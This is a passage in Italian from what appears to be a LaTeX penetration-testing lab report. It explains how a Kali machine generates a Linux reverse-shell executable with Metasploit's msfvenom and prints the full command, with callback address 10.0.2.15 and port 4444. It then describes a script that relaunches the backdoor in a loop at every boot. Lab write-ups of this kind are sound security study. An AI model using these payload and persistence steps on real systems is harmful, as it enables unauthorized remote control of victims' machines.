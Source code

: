 \subsection{Generazione di una \emph{reverse shell} mediante \emph{Metasploit}}
\emph{Metasploit} mette a disposizione un tool, chiamato \emph{msfvenom} che consente di generare l'eseguibile di una \emph{reverse shell} pronta all'uso da installare sulla macchina target. Dalla macchina \emph{Kali}, è stata avviata la console di \emph{Metasploit} ed è stato eseguito il comando: 
\begin{lstlisting}[language=bash] 
    $ msfvenom -a x64 -platform linux -p linux/x64/shell/reverse_tcp 
            LHOST=10.0.2.15 LPORT=4444 -f elf -o shell.elf
\end{lstlisting}
Il vantaggio di tale approccio risiede nel fatto che la \emph{backdoor} così costruita non necessita di meccanismi di autenticazione, consentendo alla macchina \emph{Kali} di interagire liberamente con la macchina target. 
\subsection{Creazione dello script per l'avvio della \emph{reverse shell}}
Al fine di eseguire la \emph{backdoor} ad ogni avvio del sistema, è stato previsto uno \emph{script}, chiamato \emph{in.sh}, avente come unico obiettivo quello di richiamare in loop la \emph{reverse shell} precedentemente generata (figura \ref{fig:in}). La presenza del loop ha come scopo quello di evitare la terminazione della \emph{backdoor} al termine della prima interazione con la macchina \emph{Kali}. 
\begin{figure}[h]
    \centering
    \includegraphics[scale=1]{capitoli/images/in.png}
    \caption{Script che avvia la \emph{reverse shell}}
    \label{fig:in}
\end{figure}
